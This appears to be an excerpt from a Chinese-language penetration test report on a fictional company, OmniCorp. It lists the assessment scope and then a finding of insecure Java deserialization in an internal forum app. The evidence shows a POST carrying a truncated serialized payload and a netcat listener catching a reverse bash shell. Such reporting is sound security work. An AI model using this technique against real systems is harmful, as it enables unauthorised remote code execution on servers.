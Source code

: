 以下列表显示了评估的范围，以及有关评估期间或从客户那里了解到的上下文的一些附加信息：

- AWS 配置审核（所有账户）
  - OmniCorp 面向公众的所有网站都存储在 AWS 上。
  - 一些开发人员和其他员工可以在 AWS 中建立基础设施。
  - 有一条从 AWS 到本地环境的路由，该路由是存储所有数据的地方。
- 内部和外部漏洞扫描
  - 外部：所有 AWS 资产和 OmniCorp 的 DMZ 都来自其本地托管生产网络。
  - 内部：扫描其本地托管生产网络。这是存储所有用户数据的地方。
- Windows Server 内部版本评审
  - Windows Server 2022 的黄金构建映像。
- Linux 服务器构建审查
  - Ubuntu Server 的黄金构建映像的配置审查。
  - OmniCorp 对 Linux 的主要用途是运行 Ceph 进行存储，以支持其为客户存储数据的主要应用程序。
  - https://ceph.io/en/
- 论坛软件 Web 应用程序评估
  - 内部论坛软件解决方案的 Web 应用程序评估。
  - 仅用于客户支持。
  - 解决方案后端是用 Java 编写的，具有简单的 jQuery 和 Bootstrap 前端。
- API 评估
  - API 审查 API，该 API 支持与移动应用程序之间的通信。
  - 该 API 用于从本地环境中检索数据，并托管在 AWS 中。
- 移动应用程序评估
  - 该移动应用程序仅适用于 Android，并且是用 Java 编写的。
  - 它为移动设备上的 API 提供前端。

**注意**：对其主网站的 Web 应用程序评估不在本次审查的范围内。

## 发现

### 论坛应用程序中的不安全反序列化

**观察到什么**

Web 论坛包含一种公开的反序列化方法，可用于反序列化任意对象。这可能会被滥用，以便在主机上获得远程执行。结果是托管论坛软件的内部服务器上出现 bash 提示符。这与生产网络位于同一网络中。

**证据**

```
POST /app/Deserialize HTTP/1.1
Host: app.omnicorp.com
Content-Type: application/x-java-serialized-object
Content-Length: 128


ac ed 00 05 73 72 00 12 6a 61 76 61 2e 75 74 69 6c 2e...


HTTP/1.1 202 Accepted
```

侦听器设置：

```
$ nc -lvp 4444


Listener Received Connection:
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.1.10] port 4444 [tcp/*] accepted (family 2, sport 51768)
bash-4.2$ 
```
